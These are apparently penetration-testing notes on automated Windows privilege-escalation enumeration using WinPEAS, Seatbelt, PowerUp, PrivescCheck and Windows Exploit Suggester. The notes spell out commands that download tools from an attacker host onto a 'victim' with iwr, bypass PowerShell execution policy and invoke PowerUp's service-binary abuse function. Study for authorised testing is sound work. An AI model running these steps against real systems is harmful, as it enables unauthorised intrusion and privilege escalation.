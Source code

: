# Automated Enumeration

## WinPEAS

{% code title="On the kali" overflow="wrap" lineNumbers="true" %}
```
sudo apt install peass
cp /usr/share/peass/winpeas/winPEASx64.exe .
python3 -m http.server 80
```
{% endcode %}

{% code title="On the victim" overflow="wrap" lineNumbers="true" %}
```
PS:> iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe
.\winPEAS.exe
```
{% endcode %}

{% code title="" overflow="wrap" lineNumbers="true" %}
```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> .\winPEASx64.exe > outputfile.exe

```
{% endcode %}

{% embed url="https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS" %}

## Seatbelt

{% code title="" overflow="wrap" lineNumbers="true" %}
```
PS:> iwr -uri http://192.168.45.189/Seatbelt.exe -Outfile Seatbelt.exe
./Seatbelt -group=all
```
{% endcode %}

## JAWS

## PowerUp



{% code title="Import PowerUp.ps1 and execute Get-ModifiableServiceFile" overflow="wrap" lineNumbers="true" %}
```
PS C:\Users\dave> iwr -uri http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1

PS C:\Users\dave> powershell -ep bypass
...
PS C:\Users\dave>  . .\PowerUp.ps1

PS C:\Users\dave> Get-ModifiableServiceFile

...

ServiceName                     : mysql
Path                            : C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql
ModifiableFile                  : C:\xampp\mysql\bin\mysqld.exe
ModifiableFilePermissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
ModifiableFileIdentityReference : BUILTIN\Users
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'mysql'
CanRestart                      : False
```
{% endcode %}

{% code title="Error from AbuseFunction" overflow="wrap" lineNumbers="true" %}
```
PS C:\Users\dave> Install-ServiceBinary -Name 'mysql'

Service binary 'C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql' for service mysql not
modifiable by the current user.
At C:\Users\dave\PowerUp.ps1:2178 char:13
+             throw "Service binary '$($ServiceDetails.PathName)' for s ...
+             ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : OperationStopped: (Service binary ...e current user.:String) [], RuntimeException
    + FullyQualifiedErrorId : Service binary 'C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini
   mysql' for service mysql not modifiable by the current user.
```
{% endcode %}

{% code title="Analyzing the function ModifiablePath" overflow="wrap" lineNumbers="true" %}
```
PS C:\Users\dave> $ModifiableFiles = echo 'C:\xampp\mysql\bin\mysqld.exe' | Get-ModifiablePath -Literal

PS C:\Users\dave> $ModifiableFiles

ModifiablePath                IdentityReference Permissions
--------------                ----------------- -----------
C:\xampp\mysql\bin\mysqld.exe BUILTIN\Users     {WriteOwner, Delete, WriteAttributes, Synchronize...}

PS C:\Users\dave> $ModifiableFiles = echo 'C:\xampp\mysql\bin\mysqld.exe argument' | Get-ModifiablePath -Literal

PS C:\Users\dave> $ModifiableFiles

ModifiablePath     IdentityReference                Permissions
--------------     -----------------                -----------
C:\xampp\mysql\bin NT AUTHORITY\Authenticated Users {Delete, WriteAttributes, Synchronize, ReadControl...}
C:\xampp\mysql\bin NT AUTHORITY\Authenticated Users {Delete, GenericWrite, GenericExecute, GenericRead}

PS C:\Users\dave> $ModifiableFiles = echo 'C:\xampp\mysql\bin\mysqld.exe argument -conf=C:\test\path' | Get-ModifiablePath -Literal 

PS C:\Users\dave> $ModifiableFiles
```
{% endcode %}

PowerUp is a PowerShell script that searches common privilege escalation on the target system. You can run it with the `Invoke-AllChecks` option that will perform all possible checks on the target system or use it to conduct specific checks (e.g. the `Get-UnquotedService` option to only look for potential unquoted service path vulnerabilities).

**Reminder**: To run PowerUp on the target system, you may need to bypass the execution policy restrictions. To achieve this, you can launch PowerShell using the command below.

\


Running PowerUp.ps1 on the Target System

```shell-session
C:\Users\user\Desktop>powershell.exe -nop -exec bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\user\Desktop> Import-Module .\PowerUp.ps1
PS C:\Users\user\Desktop> Invoke-AllChecks

[*] Running Invoke-AllChecks


[*] Checking if user is in a local group with administrative privileges...
```

\


![](<../../../.gitbook/assets/image (5).png>)

{% embed url="https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc" %}

[PrivescCheck.ps1](https://github.com/itm4n/PrivescCheck/blob/master/PrivescCheck.ps1)

```
. .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended
```

## Windows Exploit Suggester

Update the databases&#x20;

`./windows-exploit-suggester.py --update` &#x20;

To use the script, you will need to run the `systeminfo` command on the target system. Do not forget to direct the output to a .txt file you will need to move to your attacking machine.

Once this is done, windows-exploit-suggester.py can be run as follows;

`./windows-exploit-suggester.py --database 2021-09-21-mssb.xls --systeminfo sysinfo_output.txt`

A newer version of Windows Exploit Suggester is available [here](https://github.com/bitsadmin/wesng). Depending on the version of the target system, using the newer version could be more efficient.

{% embed url="https://github.com/AonCyberLabs/Windows-Exploit-Suggester" %}

**Metasploit**\



If you already have a Meterpreter shell on the target system, you can use the `multi/recon/local_exploit_suggester` module to list vulnerabilities that may affect the target system and allow you to elevate your privileges on the target system.

